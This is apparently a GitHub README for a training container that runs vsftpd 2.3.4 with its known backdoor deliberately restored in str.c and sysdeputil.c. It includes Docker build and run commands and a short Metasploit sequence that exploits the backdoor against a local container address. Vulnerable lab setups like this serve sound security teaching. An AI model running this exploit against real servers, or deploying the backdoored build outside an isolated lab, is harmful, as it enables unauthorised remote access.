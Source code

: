 # vsftpd-2.3.4-container
Alpine Linux based container image with a vulnerable version of vsftpd-2.3.4 for use in cybersecurity training environments. Supports both amd64 and armv8 architectures.

## Changes to source code

Downloaded official source code from: https://security.appspot.com/downloads/vsftpd-2.3.4.tar.gz

The official source release of 2.3.4 (above link) doesn't have the vulnerable backdoor and I couldn't find an official source for it.

However I did find another Github user's repo with the infected version: https://github.com/nikdubois/vsftpd-2.3.4-infected/commit/e084c9543947d9509ea74731adca427418604cc2 which I've incorporated into `str.c` and `sysdeputil.c` in order to make it exploitable using msf. 

Other changes are made to source to make it build with Alpine's default C library, [musl](https://en.m.wikipedia.org/wiki/Musl), in the Dockerfile during container image build.

## Use my published image from docker hub

```
docker run --name vsftpd-2.3.4 -it clintmint/vsftpd-2.3.4:1.0 sh -c "start-vsftpd && sh"
```

## Exploiting with msf

```
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 172.17.0.2
exploit
````

## Docker build & run

```
git clone https://github.com/clintmint/vsftpd-2.3.4-container.git
cd vsftpd-2.3.4-container
docker build -t <docker-hub-username>/vsftpd-2.3.4:1.0 . --no-cache
docker run --name vsftpd-2.3.4 -it <docker-hub-username>/vsftpd-2.3.4:1.0 sh -c "start-vsftpd && sh"
```

## Multi-architecture build and push for linux/amd64 (Intel/AMD CPUs) and linux/arm64 (for Macs using M1 chip)

```
docker login
docker buildx create --use
docker buildx build --platform linux/amd64,linux/arm64 --push -t <docker-hub-username>/vsftpd-2.3.4:1.0 . --no-cache
```

